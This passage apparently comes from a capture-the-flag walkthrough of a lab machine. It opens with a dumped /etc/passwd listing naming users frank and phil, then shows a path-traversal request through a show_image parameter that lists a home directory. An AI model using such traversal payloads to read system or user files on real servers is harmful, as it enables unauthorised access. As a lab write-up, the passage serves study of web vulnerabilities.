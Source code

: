 ```bash
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false
* Connection #0 to host 10.10.11.204 left intact
```

## Foothold
### Enumeration with arbitrary file reading
From here we find two users on the box, frank and Phil.

Upon further inspection, I learned that the query can actually output the contents of folders, which is unusual for this type of vulnerability. In most cases, if the query is not a file that exists it will return an error.
```
$ curl http://10.10.11.204:8080/show_image?img=../../../../../../home/frank/
.bash_history
.bashrc
.cache
.local
.m2
.profile
```
